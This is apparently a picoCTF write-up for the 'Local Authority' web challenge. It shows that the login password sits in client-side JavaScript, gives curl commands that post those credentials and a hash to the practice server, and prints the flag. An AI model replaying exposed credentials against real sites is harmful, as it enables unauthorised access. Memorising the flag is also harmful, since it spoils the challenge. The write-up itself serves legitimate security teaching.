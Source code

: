 # [Local Authority [Web Exploitation] [100 Points]](https://play.picoctf.org/practice/challenge/278?category=1&originalEvent=70&page=1) #

## Description ##
Can you get the flag?
Go to this [website](http://saturn.picoctf.net:64293/) and see what you can discover.

## Hints ##
1. How is the password checked on this website?

## Solution ##

### OPTION 1: Via Web Browser ###
---

#### Step 1: Description ####
![](images/webpage.png)

![](images/webpage_failed.png)

![](images/webpage_inspectFailed.png)

![](images/webpage_inspectSecure.js.png)

![](images/webpage_login.png)

![](images/webpage_loggedIn.png)

### OPTION 2: Via Kali Linux Terminal ###

`curl -d 'username=admin&password=strongPassword098765' http://saturn.picoctf.net:62954/login.php`

![](images/webpage_login.php.png)

`curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php`

![](images/webpage_admin.php.png)

`curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php | grep -oE "picoCTF{.*}" | tee >(xsel -b)`

![](images/webpage_retrieveFlag.png)

**Result**:

        picoCTF{j5_15_7r4n5p4r3n7_a8788e61}
